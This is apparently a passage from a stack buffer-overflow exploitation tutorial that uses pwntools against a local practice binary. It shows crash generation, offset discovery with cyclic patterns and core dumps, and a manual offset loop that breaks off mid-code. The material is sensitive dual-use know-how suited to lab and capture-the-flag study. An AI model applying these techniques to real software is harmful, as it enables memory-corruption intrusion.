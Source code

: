 ## Exploitation Methodology

### Step 1: Crash Analysis

```python
#!/usr/bin/env python3
from pwn import *

# Generate crash
context.log_level = 'debug'
p = process('./vuln1')

# Send long input to cause crash
payload = b'A' * 100
p.sendline(payload)
p.wait()

print("Program crashed - investigating core dump")
```

### Step 2: Finding the Offset

```python
#!/usr/bin/env python3
from pwn import *

def find_offset():
    # Generate unique pattern
    pattern = cyclic(100)
    
    # Start process and send pattern
    p = process('./vuln1')
    p.sendline(pattern)
    p.wait()
    
    # Analyze core dump
    core = Coredump('./core')
    
    # Find offset where return address was overwritten
    crash_address = core.read(core.rsp, 8)
    offset = cyclic_find(crash_address[:4])
    
    print(f"Offset found: {offset}")
    return offset

offset = find_offset()
```

### Manual Offset Finding

```python
#!/usr/bin/env python3
from pwn import *

def manual_offset_finding():
    # Try different offsets
    for i in range(60, 80):
        try:
            p = process('./vuln1')
            
            # Create payload with known value at potential return address
            payload = b'A' * i + b'BBBB'
            p.sendline(payload)
            p.wait()
```